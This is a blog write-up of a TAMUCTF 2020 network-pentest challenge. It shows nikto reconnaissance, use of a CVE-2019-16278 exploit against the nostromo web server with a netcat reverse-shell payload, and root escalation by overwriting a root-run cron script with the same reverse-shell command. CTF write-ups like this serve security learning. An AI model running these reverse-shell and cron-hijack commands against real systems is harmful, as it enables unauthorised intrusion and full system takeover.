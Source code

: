 ```yaml
---
layout: post
published: true
title: TAMUCTF-2020
date: '2020-03-30'
image: /img/tamuctf2020/1.png
---
```

Hey Guys , Back again with an interesting writeup.

<img src="/img/tamuctf2020/2.png" alt="2" style="zoom:%;" />

## MY_FIRST_BLOG

![3](/img/tamuctf2020/3.png)

A pentesting style chall from NETWORK_PENTEST category.

Given an ovpn config to connect to their internal network and a URL to start with.

http://172.30.0.2/



## Initial Foothold

![4](/img/tamuctf2020/4.png)

No juicy directories. Just a static page. So used `nikto` to get additional information about the webserver.

```console
╭─badboy17@badboy17-pc ~
╰─$ nikto -h http://172.30.0.2/        


- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          172.30.0.2
+ Target Hostname:    172.30.0.2
+ Target Port:        80
+ Start Time:         2020-03-29 12:07:58 (GMT5.5)
---------------------------------------------------------------------------
+ Server: nostromo 1.9.6
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
```

## Exploitation

`Server: nostromo 1.9.6` This banner is interesting. 

Searching for exploits we found one: 

#### CVE:

#### [2019-16278](https://nvd.nist.gov/vuln/detail/CVE-2019-16278)

Now there are two ways to get a shell. One through the Exploit and other through Metasploit.

I did it with the exploit.

```console
╭─badboy17@badboy17-pc ~
╰─$ python2 47837.py 172.30.0.2 80 'nc -e /bin/sh IP PORT'           




                                        _____-2019-16278
        _____  _______    ______   _____\    \   
   _____\    \_\      |  |      | /    / |    |  
  /     /|     ||     /  /     /|/    /  /___/|  
 /     / /____/||\    \  \    |/|    |__ |___|/  
|     | |____|/ \ \    \ |    | |       \        
|     |  _____   \|     \|    | |     __/ __     
|\     \|\    \   |\         /| |\    \  /  \    
| \_____\|    |   | \_______/ | | \____\/    |   
| |     /____/|    \ |     | /  | |    |____/|   
 \|_____|    ||     \|_____|/    \|____|   | |   
        |____|/                        |___|/    



```

```console
╭─badboy17@badboy17-pc ~
╰─$ nc -lvnp PORT                                                                                                                   
Connection from 172.30.0.2:45084
whoami
webserver

```

and we get in as `webserver`.

And as the `root` owns flag. Privilege escalation was needed.

## Privilege Escalation

No juicy files were in directories. So moving on to checking the system-wide `crontab`.

```console
# /etc/crontab: system-wide crontab
# Unlike any other crontab you don't have to run the `crontab'
# command to install the new version when you edit this file
# and files in /etc/cron.d. These files also have username fields,
# that none of the other crontabs do.

SHELL=/bin/sh
PATH=/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin

# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
#
* * * * * root /usr/bin/healthcheck
```

Now here a `root` privileged script was cron'ed to run after every small interval.

`/usr/bin/healthcheck` .Checking the script

```bash
nc -z localhost 80
if [ $? == 1 ]; then
	echo "nhttpd is dead, restarting."
	nhttpd
fi
```

So the script was modified to get a `root` reverse shell.

```bash
echo "nc -e /bin/sh IP PORT" > /usr/bin/healthcheck
```

And we get a reverse shell. Wooohooooooooooooo.

```console
╭─badboy17@badboy17-pc ~ 
╰─$ nc -lvnp 12345
Connection from 172.30.0.2:48432
whoami
root
cat flag.txt
gigem{l1m17_y0ur_p3rm15510n5}
```

`gigem{l1m17_y0ur_p3rm15510n5}`

That's our pretty flag. 

Till next time xD.